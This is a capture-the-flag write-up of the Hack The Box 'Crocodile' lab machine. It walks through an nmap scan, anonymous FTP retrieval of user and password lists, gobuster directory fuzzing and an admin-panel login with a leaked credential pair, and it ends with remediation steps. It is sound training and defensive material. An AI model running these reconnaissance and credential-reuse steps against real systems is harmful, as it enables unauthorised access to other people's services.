

# Crocodile

**Platform:** Hack The Box · **Type:** Starting Point · **OS:** Linux · **Difficulty:** Tier 1

**Summary:** Anonymous FTP leaked a user list and a password list. Gobuster found `login.php`, and one of the leaked pairs (`admin:rKXM59ESxesUFHAd`) gave admin access and the flag.

## 1. Reconnaissance

```bash
nmap -sC -sV 10.129.17.26
```

Relevant output:
```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
```

## 2. Foothold

### Anonymous FTP
I logged in as `anonymous` and pulled both files:

```bash
ftp anonymous@10.129.17.26
ftp> ls
-rw-r--r-- 1 ftp ftp 33 Jun 08 2021 allowed.userlist
-rw-r--r-- 1 ftp ftp 62 Apr 20 2021 allowed.userlist.passwd
ftp> get allowed.userlist
ftp> get allowed.userlist.passwd
ftp> exit
```

Contents:
```text
# allowed.userlist
aron
pwnmeow
egotisticalsw
admin

# allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

### Directory fuzzing
The home page was just a static template with no useful links, so I looked for hidden pages and login panels:

```bash
gobuster dir -u http://10.129.17.26 -x php,html -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

Result:
- `/login.php` (Status: 200 OK)

### Admin panel
At `http://10.129.17.26/login.php`, user `admin` with password `rKXM59ESxesUFHAd` worked first try, and the flag was on the dashboard:



## 3. Privilege Escalation

Not applicable: the goal is the admin panel.

## 4. Conclusion

**Chain:** anonymous FTP → leaked credential lists → hidden `login.php` → admin access.

**Remediation:**
- **Disable anonymous FTP:** set `anonymous_enable=NO` in `vsftpd.conf`.
- **Protect credentials:** never keep credentials or account lists in plaintext in shared or public directories.
- **Harden admin panels:** add MFA and rate limiting, and keep admin paths behind a VPN.
